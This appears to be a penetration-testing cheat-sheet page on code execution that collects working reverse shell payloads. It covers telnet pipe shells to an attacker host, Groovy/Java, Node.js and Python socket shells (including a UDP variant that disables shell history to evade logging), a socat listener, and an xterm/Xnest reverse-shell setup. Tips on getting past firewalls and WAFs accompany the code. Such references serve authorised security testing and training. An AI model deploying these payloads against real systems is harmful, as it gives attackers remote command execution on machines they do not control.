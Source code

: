 ```yaml
---
description: Code Execution
---
```


# Shells

## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Groovy

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Javascript

The following can be used as a general platform independent reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

**Source**: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
**Source**: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

## Python

There are a myriad of ways to spawn a shell in Python, and for the classic TCP reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with. I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).  

An example alternative protocol is a UDP shell, which can be used to bypass firewall rules in some environments:

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

## Xterm

Xterm sessions can also be used to retrieve a shell on a remote device.  This can be useful in cases where you've exploited a VNC instance, or in some cases if a WAF is restricting the character inputs you can do.  One of the benefits of spawning an xterm shell is that it is installed by default and has a short declaration syntax to spawn a shell.

For this you'll need xnest installed and a remote xterm client available. You can set up the listener on your own listener server using one of the following two commands:

```text
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```text
xhost +<remote ip>
```

On the remote machine you can then run:

```text
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.

